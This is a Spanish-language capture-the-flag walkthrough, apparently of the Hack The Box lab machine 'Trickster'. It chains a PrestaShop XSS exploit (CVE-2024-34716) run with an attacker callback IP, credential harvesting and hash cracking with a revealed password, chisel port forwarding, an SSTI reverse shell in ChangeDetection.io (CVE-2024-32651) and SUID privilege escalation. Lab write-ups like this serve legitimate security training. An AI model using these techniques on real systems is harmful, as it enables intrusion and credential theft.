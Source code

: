 ![[Pasted image 20250203223628.png]]

![[Pasted image 20250203223657.png]]

```shell
$ sudo nano /etc/hosts

10.10.11.34    trickster.htb
```

## Escaneo de puertos
![[Pasted image 20250203223955.png]]

Descubrimiento del servicio junto con un script basico de vulnerabilidades

![[Pasted image 20250203225222.png]]

#### Descubrimiento del sistema operativo
*Se descubre que la maquina vitima utiliza como sistema operativo un ubuntu Jammy*

![[Pasted image 20250203230143.png]]

## Visualizacion de la pagina web descubierta

![[Pasted image 20250203225352.png]]

Identificación de tecnologías
![[Pasted image 20250203231327.png]]

Se descubre un nuevo subdominio en la pagina *shop.trickter.htb*

![[Pasted image 20250203224110.png]]

Se agrega al */etc/hosts*
```shell
$ sudo nano /etc/hosts

10.10.11.34    trickster.htb    shop.trickster.htb
```

Identificación de tecnologías
![[Pasted image 20250203231527.png]]

#### Visualizacion del subdominio shop.trickster.htb

![[Pasted image 20250203224303.png]]

#### Descubrimiento de directorios
Se descubre directorio *.git* del proyecto, que podemos utilizar para realizar una composición del proyecto y poder llegar a descubrir la estructura de la pagina

![[Pasted image 20250204123328.png]]
Se descubre directorio oculto tras la composición de la pagina web mediante la herramienta *Githack*

![[Pasted image 20250204123449.png]]

## CVE-2024-34716
Al conocer la version de *Prestashop 8.1.5* conocemos que existe un CVE para una vulnerabilidad **XSS**

#### PoC
Utilizamos un recurso de github https://github.com/aelmokhtar/CVE-2024-34716 que automatiza el proceso de explotación por **XSS** lo que nos da como resultado una shell interactiva de la maquina victima.

```shell
$ python3 exploit.py --url http://shop.trickster.htb --email test@test.com --local-ip 10.10.16.17 --admin-path admin534ewutrx1jgitlooaj

...

www-data@trickster:/$ whoami
www-data
```

#### Busqueda de config
Realizamos una busqueda en la configuracion de la pagina en busqueda de usuarios y contrasenas expuestas para poder conectarnos al usuario y escalar nuestros privilegios

Encontramos el archivo */prestashop/app/config/parameters.php* donde presenta un usuario y su contrasena para la base de datos *SQL*

![[Pasted image 20250204143211.png]]

#### Conexión a la base de datos

![[Pasted image 20250204143508.png]]

Descubrimiento de usuarios y contrasenas

![[Pasted image 20250204144856.png]]

#### Rompimiento de contrasenas con hashcat
Se descubre el password de **james** = *alwaysandforever*

![[Pasted image 20250204145608.png]]

![[Pasted image 20250204150038.png]]

## Escalada de privilegios
Localizamos que el servcio de docker esta en curso, debido a que no tenemos permisos con docker, no se pueden visualizar los contenedores o las imagenes.

#### Maquina docker
![[Pasted image 20250206121551.png]]

La maquina *172.17.0.2* esta presente en el sistema, y ademas se logra identificar que su puerto 5000 esta abierto, lo que puede indicar un tipo de servicio como el de *HTTP*

![[Pasted image 20250206121710.png]]

#### Portforwarding con chisel
Nos pasamos chisel en la maquina victima para realizar *Portforwarding* y poder visualizar la pagina desde nuestro host

![[Pasted image 20250206125851.png]]

![[Pasted image 20250206125907.png]]

Con esto se puede visualizar la pagina del contenedor desplegado en docker de la maquina victima

![[Pasted image 20250206130012.png]]

## CVE-2024-32651
Al conocer la version *0.45.20* del servicio *ChangeDetection.io* que esta en el puerto 5000 del contenedor Docker, logramos encontrar una CVE que nos permite explotar un **SSTI**

Configuramos la pagina de nuestro host
```shell
pythom -m http.server 80
```

![[Pasted image 20250206131339.png]]

Modificamos las notificaciones para poder recibir una reverse shell del contenedor
![[Pasted image 20250206131441.png]]

#### Reverse shell
![[Pasted image 20250206131225.png]]

#### Posible recurso con passwords
Se descubren 2 recursos que es posible que contengan passwords de la maquina

![[Pasted image 20250206133614.png]]

Nos pasamos los archivos a la maquina y asi intentar descubrir su contenido

#### Password adam
Se descubre en el recurso un archivo con el contenido del usuario *adam* y su password

![[Pasted image 20250206134741.png]]

![[Pasted image 20250206135316.png]]

## Escalada de privilegios
Se descubre que con el usuario admin se puede ejecutar como root el siguiente binario

![[Pasted image 20250206141824.png]]

Realizamos el exploit para el binario y convertirlo en *SUID* y poder conectarnos como *root*

![[Pasted image 20250206141459.png]]

Nos conectamos como root a la maquina victima

![[Pasted image 20250206141901.png]]